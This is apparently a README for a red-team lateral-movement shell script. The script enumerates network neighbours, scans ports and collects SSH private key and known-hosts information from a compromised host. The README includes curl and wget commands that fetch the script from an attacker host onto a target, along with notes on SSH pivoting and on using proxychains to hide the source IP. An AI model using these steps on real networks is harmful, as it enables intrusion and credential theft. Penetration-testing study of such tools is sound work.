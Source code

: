 # Lateral Movement Phase

Lateral Movement is about the ability to move around the network. It is possible that the actual target cannot be reached from or on the initially compromised host. In this case, access must be gained to one or more remote systems. To do this, the network must be explored. Similar to Internal Reconnaissance, information is gathered here, but about the current network and surrounding systems.

This script serves as a tool for receiving some information that may be important for Lateral Movement.

## Features

- Get network neighbours (from arp table)
- Get reachable IP addresses
- Port scan of a given IP address
- Get SSH information about private keys and known hosts

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/lateral-movement/lateral-movement.sh
sh lateral-movement.sh -h
```
Local network:
```sh
# Host
sh lateral-movement.sh -w
# Target
curl -LJO <Host>:8000/lateral-movement.sh #or
curl <Host>:8000/lateral-movement.sh > lateral-movement.sh #or
wget <Host>:8000/lateral-movement.sh
sh lateral-movement.sh -h
```

### Parameters

```
sh lateral-movement.sh -h

Usage: lateral-movement.sh [options]

Options:
-h               Show this help message
-p <IP address>  Do a port scan of the given IP address

-w               Serves a local web server for transferring files

Output:
-c               No colours. Without colours, the output can probably be read better
-q               Quiet. No banner and no advisory displayed
```

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Pivoting and Proxychains

Pivoting can be described as a method or technique that allows an already compromised system (also called a "plant" or "foothold") to be used to move into other systems on the same network. This can be used to bypass restrictions on a network (a firewall, for example).

#### Pivoting with SSH

Local forwarding: make a port of the target locally reachable:
````sh
ssh -L <local port>:<remote host>:<remote port> [<jumphost>]
````
Remote forwarding: Make a local port externally accessible:
````sh
ssh -R <remote port>:<localhost>:<local port> [<jumphost>]
````
Dynamic forwarding: Make all ports of the target locally accessible as SOCKS proxy:
````sh
ssh -D <local port> <jump host>
````

#### ProxyChains

Proxychains is a tool that forces any TCP connection of any application through one or more proxy servers (for example SOCKS4/5 or HTTP(S) proxy).  
With proxychains and port forwarding, it is possible to forward a connection through device B to device C.

````sh
# syntax:
proxychains <application> <argument>

# example:
proxychains nmap -sS 10.0.2.16 -p 80
````
The nmap scan is routed through the proxy servers defined in the configuration file.

ProxyChains configuration file: /etc/proxychains.conf
````sh
# syntax:
<typ> <IP> <port> <user> <password>
# examples:
socks4 127.0.0.1 9000
socks5 192.168.89.45 4567 user pass
````

Thus it is possible to disguise the source IP, as the destination will only receive the IP of the last proxy as source.
